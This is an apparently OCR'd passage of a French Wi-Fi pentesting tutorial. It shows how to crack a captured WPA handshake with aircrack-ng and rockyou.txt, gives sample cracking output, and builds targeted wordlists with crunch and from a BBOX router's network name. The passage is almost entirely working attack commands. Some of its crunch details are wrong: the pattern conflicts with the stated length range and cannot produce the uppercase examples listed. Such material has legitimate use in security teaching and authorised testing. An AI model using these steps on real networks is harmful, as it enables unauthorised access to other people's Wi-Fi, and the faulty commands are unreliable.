 #### **Attaque dictionnaire classique**
```bash
# Utiliser wordlist pour tester mots de passe

# WORDLISTS COMMUNES :
# /usr/share/wordlists/rockyou.txt (14M mots de passe)
# /usr/share/wordlists/dirb/others/best110.txt (110 passwords communs)

# CRACK AVEC ROCKYOU :
aircrack-ng -w /usr/share/wordlists/rockyou.txt handshake_capture-01.cap

# AFFICHAGE PENDANT CRACK :
[00:01:32] 127843/14344391 keys tested (1432.73 k/s) 

Time left: 2 hours, 45 minutes                           0.89%

                           KEY FOUND! [ password123 ]

Master Key     : CD 4F 8B 3A 51 75 C9 E8 47 F4 D3 B1 1C C7 29 A5 
                 41 96 7C 8F 9D B5 E2 7A F9 8C 63 B4 85 12 F7 E3 

Transient Key  : AA 5E 7B 2F 85 91 D6 C4 1F B8 7E A9 33 D2 48 F1 
                 73 C8 95 A7 E4 6F B9 82 5A D1 C7 94 6E 38 B5 F2 

EAPOL HMAC     : 8D F5 A1 B3 C7 E9 4A 76 2F D8 E1 59 C4 B7 A3 E6

# MOT DE PASSE TROUVÉ : password123
```

#### **Création wordlist personnalisée**
```bash
# Générer wordlist ciblée avec crunch
crunch 8 12 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 -t @@@@2024 -o wordlist_2024.txt

# PARAMÈTRES CRUNCH :
# 8 12 = longueur min-max password
# abcd... = charset utilisé  
# -t @@@@2024 = pattern (@@@@=4 chars aléatoires + "2024")
# -o = fichier sortie

# Exemples mots de passe générés :
abcd2024, Test2024, wifi2024, pass2024...

# Wordlist ESSID-based (nom réseau)
echo "BBOX-12345678" | sed 's/BBOX-//' > temp.txt
echo "bbox12345678" >> temp.txt  
echo "12345678" >> temp.txt
echo "Bbox12345678" >> temp.txt

# Crack avec wordlist personnalisée
aircrack-ng -w wordlist_custom.txt handshake_capture-01.cap
```
